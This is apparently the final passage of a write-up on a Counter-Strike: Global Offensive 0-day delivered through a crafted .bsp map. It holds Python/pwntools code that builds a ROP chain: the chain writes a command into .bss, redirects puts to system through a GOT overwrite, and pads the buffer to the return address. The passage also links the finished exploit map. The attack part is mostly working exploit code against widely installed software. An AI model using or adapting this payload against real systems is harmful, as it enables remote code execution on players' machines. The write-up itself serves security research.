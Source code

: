 ```py
rop = []

for i in range(0, len(command), 4):
  current = int(command[i:][:4][::-1].encode("hex"), 16)
  rop += [pop_eax_ebx_ebp, bss + i - 0x5b, current, bss, add_what_where, bss]

rop += [pop_eax_ebx_ebp, putsgot - 0x5b, 0x100000000 - (putsoffset - systemoffset), bss, add_what_where, bss]
rop += [putsplt, bss, bss, bss]

payload = ""
for i in rop:
  payload += p32(i)


with open('rop', 'wb') as f:
  f.write(payload)

print '[+] Generated ROP.\n'
```

## Finalizing the exploit

To finish up the exploit, we just need to overwrite the whole buffer up until the return address with zeroes, and then insert our ROP payload!

```py
from pwn import *

rop = ''

with open('rop', 'r') as f:
  rop = f.read()

payload  = p8(0) * 0x1c0 
payload += rop

with open('payload', 'w') as f:
  f.write(payload)

print '[+] Full payload generated.\n'
```

After inserting our crafted payload, fixing the `fileLen` and `fileNameLength` by hand, we can finally execute our code! The final bsp is [here]({{"/assets/files/CSGO0day/exploit.bsp"}})

![]( {{"/assets/images/csgo_calc.gif"}})

## Conclusions and lessons learned

- We learned a few lessons from this challenge, and we feel like the main one is to not rely on old source code / leaks. We could have saved a lot of time by just opening the binary up in IDA, yet we did not do it immediately which we feel now like we should have.
